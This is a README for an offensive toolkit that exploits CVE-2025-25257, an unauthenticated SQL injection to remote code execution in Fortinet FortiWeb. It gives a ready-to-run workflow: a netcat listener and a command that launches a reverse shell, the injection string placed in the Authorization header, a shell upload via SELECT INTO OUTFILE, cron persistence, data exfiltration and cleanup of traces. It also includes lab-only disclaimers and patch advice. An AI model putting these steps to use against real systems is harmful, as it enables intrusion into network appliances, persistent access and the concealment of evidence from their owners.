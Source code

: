 # FortiWeb RCE Toolkit 🔐

Automated proof‑of‑concept tool for **CVE‑2025‑25257** in Fortinet FortiWeb — featuring **reverse shell**, **encrypted data exfiltration**, **persistence**, and **cleanup**. This toolkit is **strictly for isolated lab/testing environments**. **DO NOT USE in production.**


## ⚙️ Features

- ✔️ **Pre‑auth detection** of vulnerable FortiWeb versions (7.0.0–7.0.10, 7.2.0–7.2.10, 7.4.0–7.4.7, 7.6.0–7.6.3)
- 🐚 **Reverse shell** (bash) via `/cgi-bin/shell.sh`
- 📤 **Encrypted data exfiltration** to `/tmp/exfil.txt` (Base64‑encoded)
- 🕒 **Persistence** via cron job (`/etc/cron.d/sys`)
- 🧹 **Full cleanup**: removes shell, cron job, and SQL traces
- 🔒 Active only while listener runs and cleanup occurs


## 📊 Severity & Affected Versions

- **CVE‑2025‑25257**: Unauthenticated SQL injection → Remote Code Execution (RCE)
- **CVSS v3.1**: **9.6 (Critical)**
- **Vulnerable versions**:
  - FortiWeb 7.0.0–7.0.10 → Upgrade to **7.0.11+**
  - FortiWeb 7.2.0–7.2.10 → Upgrade to **7.2.11+**
  - FortiWeb 7.4.0–7.4.7 → Upgrade to **7.4.8+**
  - FortiWeb 7.6.0–7.6.3 → Upgrade to **7.6.4+**


## 📋 Requirements

- Python **3.6+**
- Install `requests`:
  ```bash
  pip install requests


## 🚀 Usage

```bash
git clone https://github.com/youruser/fortiweb_rce_toolkit.git
cd fortiweb_rce_toolkit

# Start listener
nc -lnvp 4444

# Run exploit
python3 exploit.py <target> --https --lhost <your_ip> --lport 4444 \
  [--exfil "user(),version()"] [--persist]

# After shell exits, press ENTER to cleanup
```

* `--https` if target uses HTTPS

* `--lhost` & `--lport` must match listener settings

* `--exfil` (optional): SQL expression to exfiltrate

* `--persist` (optional): enables cron persistence


## 🔧 Technical Workflow

1. Detection via injection (`Authorization: Bearer AAAAAA'or'1'='1`)

2. Upload shell using `SELECT INTO OUTFILE`

3. Optionally exfiltrate data to `/tmp/exfil.txt`

4. Optionally set cron persistence

5. Reverse shell execution

6. Cleanup: shell removal, cron job deletion, SQL cleanup


## ⚠️ Warnings & Ethics

* ⚠️ Use **only in lab environments**

* ⚠️ **Illegal/unethical** on production

* 🚨 Patch FortiWeb to **7.0.11+, 7.2.11+, 7.4.8+, or 7.6.4+**

* 🛡️ Consider disabling HTTP/HTTPS management until patched


## 🛠️ Future Enhancements

* TLS‑encrypted reverse shell

* Encrypted exfil (SCP, S3)

* Automated C2 communication

* Integration with Red Team frameworks (Cobalt Strike, Covenant)


## 📚 References

* Fortinet FortiGuard PSIRT

* BleepingComputer, TheHackerNews, SecurityOnline

* EventusSecurity, InfoSecBulletin, Arctic Wolf, Tenable


## 📄 License

MIT License © 2025 `secwatch92`
